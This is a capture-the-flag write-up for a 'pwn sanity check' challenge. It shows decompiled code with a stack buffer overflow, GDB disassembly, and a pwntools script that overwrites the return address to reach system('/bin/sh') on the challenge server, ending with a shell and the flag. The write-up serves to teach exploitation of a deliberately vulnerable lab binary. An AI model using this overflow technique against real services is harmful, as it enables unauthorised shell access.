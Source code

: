 This was a sanity check challenge for the PWN category. 

We were provided a 64-bit ELF file containing the following functions:

vuln():
```c
void vuln(void)

{
  char local_48 [60];
  int local_c;
  
  puts("tell me a joke");
  fgets(local_48,0x100,stdin);
  if (local_c == -0x21523f22) {
    puts("very good, here is a shell for you. ");
    shell();
  }
  else {
    puts("will this work?");
  }
  return;
}
```

shell():
```c
void shell(void)

{
  puts("spawning /bin/sh process");
  puts("wush!");
  printf("$> ");
  puts("If this is not good enough, you will just have to try harder :)");
  return;
}
```

win():
```c
void win(int param_1,int param_2)

{
  puts("you made it to win land, no free handouts this time, try harder");
  if (param_1 == -0x21524111) {
    puts("one down, one to go!");
    if (param_2 == 0x1337c0de) {
      puts("2/2 bro good job");
      system("/bin/sh");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  }
  return;
}
```

I initially attempted a variable overwrite in order to reach the shell() function. Specially, I overwrote `local_c` so that it would equal `-0x21523f22` (which is equivalent to `0xdeadc0de`)


```console
root@osboxes:~/Downloads# python -c 'from pwn import *;print "A" * 60 + p64(0xdeadc0de)' | ./pwn_sanity_check 
tell me a joke
very good, here is a shell for you. 
spawning /bin/sh process
wush!
$> If this is not good enough, you will just have to try harder :)
```

Clearly this was a rabbit-hole, as the shell() function does not actually produce a shell, it merely prints text. What we REALLY want is to reach the win() function which contains the `system("/bin/sh");` command. 

We can use GDB to pull the address for the win() function:

```console
(gdb) disas win
Dump of assembler code for function win:
   0x0000000000400697 <+0>:	push   %rbp
   0x0000000000400698 <+1>:	mov    %rsp,%rbp
   0x000000000040069b <+4>:	sub    $0x10,%rsp
   0x000000000040069f <+8>:	mov    %edi,-0x4(%rbp)
   0x00000000004006a2 <+11>:	mov    %esi,-0x8(%rbp)
   0x00000000004006a5 <+14>:	lea    0x18c(%rip),%rdi        # 0x400838
   0x00000000004006ac <+21>:	call   0x400550 <puts@plt>
   0x00000000004006b1 <+26>:	cmpl   $0xdeadbeef,-0x4(%rbp)
   0x00000000004006b8 <+33>:	jne    0x4006f1 <win+90>
   0x00000000004006ba <+35>:	lea    0x1b7(%rip),%rdi        # 0x400878
   0x00000000004006c1 <+42>:	call   0x400550 <puts@plt>
   0x00000000004006c6 <+47>:	cmpl   $0x1337c0de,-0x8(%rbp)
   0x00000000004006cd <+54>:	jne    0x4006f1 <win+90>
   0x00000000004006cf <+56>:	lea    0x1b7(%rip),%rdi        # 0x40088d
   0x00000000004006d6 <+63>:	call   0x400550 <puts@plt>
   0x00000000004006db <+68>:	lea    0x1bc(%rip),%rdi        # 0x40089e
   0x00000000004006e2 <+75>:	call   0x400560 <system@plt>
   0x00000000004006e7 <+80>:	mov    $0x0,%edi
   0x00000000004006ec <+85>:	call   0x4005a0 <exit@plt>
   0x00000000004006f1 <+90>:	nop
   0x00000000004006f2 <+91>:	leave  
   0x00000000004006f3 <+92>:	ret    
End of assembler dump.
```

One idea is take advantage of the precise location where `system("/bin/sh");` is called (which can be identified in either GDB or Ghidra):

```py
root@osboxes:~/Downloads# cat pwn_sanity_chk.py
from pwn import *

HOST = 'dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io'
PORT = 7480

sh = remote(HOST, PORT)

print sh.recv()

payload = 'A' * 72
payload += p64(0x004006db)

sh.sendline(payload)
sh.interactive()
```

Running this script yields an interactive session:

```console
root@osboxes:~/Downloads# python pwn_sanity_chk.py 
[+] Opening connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io on port 7480: Done
tell me a joke

[*] Switching to interactive mode
will this work?
$ whoami
pilot
$ ls
flag.txt
pwn_sanity_check
startService.sh
$ cat flag.txt
dctf{Ju5t_m0v3_0n}
[*] Got EOF while reading in interactive
$  
```

The flag is **dctf{Ju5t_m0v3_0n}**.

